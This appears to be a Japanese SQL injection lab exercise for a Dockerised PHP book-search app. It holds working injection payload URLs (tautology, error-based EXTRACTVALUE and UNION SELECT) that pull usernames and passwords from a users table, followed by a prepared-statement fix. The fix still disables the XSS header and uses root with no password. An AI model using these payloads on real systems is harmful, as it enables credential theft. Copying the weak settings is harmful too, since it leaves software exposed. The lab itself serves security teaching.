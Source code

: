 ## 演習

### アプリケーションの起動

以下のコマンドをターミナルで実行してみましょう。

```bash
docker-compose up
```

### アプリケーションの概要

このアプリケーションでは`search.php`の後に`?author=example`のような形で著者名による書籍データベース検索をします。
authorのパラメータに設定された文字列をそのままチェック等一切なしでSQL文に組み込んでいるため、SQLインジェクションができてしまいます。

正常な実行結果の例としては`https://<擬似ブラウザに表示されているドメイン>/search.php?author=Atabasca`を実行してみてください。

### 攻撃

1. `https://<擬似ブラウザに表示されているドメイン>/search.php?author='+OR+'a'='a` というURLでauthorパラメータを設定してアクセスする。
2. 実行された結果として、著者名に関係なく書籍データベースが取得できてしまう。
3. `https://<擬似ブラウザに表示されているドメイン>/search.php?author='+AND+EXTRACTVALUE(0,(SELECT+CONCAT('$',username,':',password)+FROM+users+LIMIT+0,1))+%23`というURLで同様にアクセスする。
4. 実行された結果、エラーメッセージとして`Unknown XPATH variable at: '$guest:...'`という形で、同じデータベースの別のテーブルとして入っているusername/passwordの組を取得できてしまう。
5. `https://<擬似ブラウザに表示されているドメイン>/search.php?author='+UNION+SELECT+username,password,NULL,NULL+FROM+users--+%60`というURLで同様にアクセスする。
6. 今度はテーブルの「ID」の欄にusername、「タイトル」の欄にpasswordが表示される形でテーブルusersの内容全部が取得できてしまう。

### 攻撃の対策

search.phpをプレースホルダを使うように書き換えることで脆弱性をなくすことができます。具体的には最初のデータベースをアクセスする部分は以下のように書き換えます。

```php
<?php
    session_start();
    header("X-XSS-Protection: 0;");
    $author = $_GET['author'];
    try {
        $options = array(PDO::ATTR_ERRMODE => PDO::ERRMODE_EXCEPTION,
            PDO::ATTR_EMULATE_PREPARES => false);
        $dbname = 'pgsql:host=' . $_ENV['DATABASE_HOST'] . ';dbname=sampledb;options=\'--client_encoding=UTF8\'';
        $dbh = new PDO($dbname, 'root', '', $options);
        $sqlcode = "SELECT * FROM booklist WHERE author = ? ORDER BY id";
        $result = $dbh->prepare($sqlcode);
        $result->bindValue(1, $author, PDO::PARAM_STR);
        $result->execute();
?>
```

